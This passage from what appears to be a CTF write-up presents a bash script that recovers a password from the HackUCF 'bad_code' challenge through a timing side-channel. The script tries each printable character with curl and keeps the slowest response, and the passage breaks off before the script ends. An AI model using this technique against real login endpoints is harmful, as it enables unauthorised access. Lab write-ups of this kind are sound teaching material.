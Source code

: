
As the results seemed consistent, I also removed the repeating of the tests, both the 20 calls and 10 runs. These were only there in case the difference in times was small, so it would try and handle small errors by averaging them out. The differences are easily noticable, though. 

Finally, I removed some of the information output and final script was:
```bash
#!/bin/bash

url="http://ctf.hackucf.org:4000/bad_code/bad_code.php?passwd="
echo "Average timings" > average_timings.txt
echo "===============" >> average_timings.txt

# Start of pass can be used if we find actual letters
start_of_pass=

# What is returned from the page when we get the password wrong (with the time removed)
# We'll check if this changes
expected="WRONG.<br/><br/><br/><small><div class=\"footer\">Response generated in: </div><small>"
while true
do
  # Set up for the next letter
  large_time=0.0
  large_ascii=0
  
  # Run through the ASCII printable range
  # We can use urlencoding to avoid illegal characters in the URL
  # Run from SPACE (32) to ~ (126) - 95 characters
  for i in {32..126}
  do
    # Encode to hex with a %
    hex_val=$(printf "%x" $i)
    hex_val=%$hex_val
    passwd=$start_of_pass$hex_val
    next_url=$url$passwd
    echo "URL: $next_url"
    nxt_time=$(curl -s "$next_url" | sed -e "s/^.*<time>//" -e "s/<.*$//")
    
    # When we try the actual password here, it returns something other than the time,
    # so bail out if the answer isn't numeric!
    if [[ $nxt_time =~ ^[0-9.]+$ ]]
    then
      echo "Time: $nxt_time" 

      # Record which was the largest result
      if (( $(echo "$nxt_time > $large_time" | bc -l) ))
      then
        large_time=$nxt_time
        large_ascii=$i
      fi
    else
      large_time=1.0
      large_ascii=$i
      break
    fi
  done

  # Record the results
  large_char=$(awk -v char=$large_ascii 'BEGIN{printf "%c", char}')
  echo "Longest time was for $large_ascii ($large_char): $large_time" >> average_timings.txt
  start_of_pass=$start_of_pass$large_char

  # Do we have the password?
  echo "Current password: $start_of_pass" | tee -a average_timings.txt
  next_url=$url$start_of_pass
```
